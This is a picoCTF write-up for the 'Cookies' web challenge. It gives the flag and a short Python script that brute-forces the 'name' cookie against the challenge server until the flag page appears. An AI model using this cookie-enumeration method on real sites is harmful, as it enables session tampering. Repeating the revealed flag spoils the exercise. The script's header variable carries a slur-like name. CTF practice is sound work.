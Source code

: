 # Cookies

### Flag: picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535} 


   * The Challenge is Called Cookies so Naturally First thought is that is has something to do with Web Cookies.
    * The Challenge Description provides us links to the following web-app `http://mercury.picoctf.net:17781/`

![Home Image](assets/web_home.png)
    
   - Inspecting the Dev panel we notice something very interesting, There's a Cookie called "name" with the values "-1"
    - Ok lets Explore further 

![Requests Image](assets/request_image.png)

  - Next typing the prompt on the text box gives us 2 Network Requests as seen on the image. 

   - Ok, now lets try with something random in the box

![invalid Request Image](assets/random_req_image.png) 

   - so it seems that when we search a valid string  the search sets up the name cookie redirects us to '/check' and if not it just sends us back to the home page
    - We need to Find the valid cookie value for the flag, 
    - This Code Prints the Html oF the page with the flag. 

```py
    import requests
    for i in range(100):
        print(i) #debugging
        changed_values = f"name={i}"
        niga={'Cookie': changed_values}


        r=requests.get("http://mercury.picoctf.net:17781/check",headers=niga)

        if "picoCTF" in r.text:
            print(r.text)
            break
```



  - looking through the html we get the flag. 

